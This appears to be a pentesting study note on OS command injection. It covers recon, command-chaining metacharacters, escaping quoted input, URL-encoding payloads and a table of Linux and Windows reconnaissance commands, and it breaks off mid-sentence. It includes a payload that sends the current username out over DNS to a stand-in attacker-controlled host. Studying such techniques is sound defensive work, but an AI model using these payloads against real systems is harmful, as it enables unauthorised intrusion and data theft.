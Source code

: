 ![[OS Command Injection.jpg]]
# Command Injection

# Recon

First step is to perform app mapping and identify any instances where the app appears to be interacting with the underlying OS by calling external processes or accessing the file system. The app may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc..).

It is recommended to probe all these instances for OS command injection.
# Background Knowledge

The characters `;`, `|` and `&` and newline `%0a` can be used to batch multiple commands one after another. Each of these characters should be used when probing for command injection vulnerabilities, as the app may reject some inputs but accept others.

The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command. This will cause the interpreter to execute this command first before continuing to execute the remaining command string:

```bash
nslookup `whoami`.server-you-control.net
```

>[!info]
>Note that the different shell metacharacters have subtly different behaviours that may affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters. For example, the & and space characters may need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload.

Some useful commands include:

| Purpose of command    | Linux       | Windows       |
| --------------------- | ----------- | ------------- |
| Name of current user  | whoami      | whoami        |
| Operating system      | uname -a    | ver           |
| Network configuration | ifconfig    | ipconfig /all |
| Network connections   | netstat -an | netstat -an   |
| Running processes     | ps -ef      | tasklist      |
A number of characters can be used as command separators, allowing commands to be chained together such as:
